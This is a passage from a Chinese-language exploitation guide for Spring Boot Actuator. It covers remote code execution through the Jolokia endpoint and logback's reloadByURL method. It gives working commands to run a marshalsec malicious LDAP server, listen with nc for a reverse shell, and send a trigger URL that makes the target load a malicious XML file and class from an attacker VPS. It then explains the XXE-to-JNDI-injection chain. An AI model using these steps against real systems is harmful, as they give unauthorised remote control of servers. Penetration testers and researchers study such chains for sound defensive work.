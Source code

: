 然后将生成的 `JNDIObject.class` 文件拷贝到 步骤二 中的网站根目录。

##### 步骤四：架设恶意 ldap 服务

下载 marshalsec ，使用下面命令架设对应的 ldap 服务：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389

```

##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```
nc -lv 443

```

##### 步骤六：从外部 URL 地址加载日志配置文件

> ⚠️ 如果目标成功请求了 example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/example.xml


```

#### 漏洞原理：

1.  直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
    
2.  目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
    
3.  目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
    
4.  xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
    
5.  目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞
    

#### 漏洞分析：

 spring boot actuator rce via jolokia

#### 漏洞环境：

repository/springboot-jolokia-logback-rce

正常访问：

```
http://127.0.0.1:9094/env


```
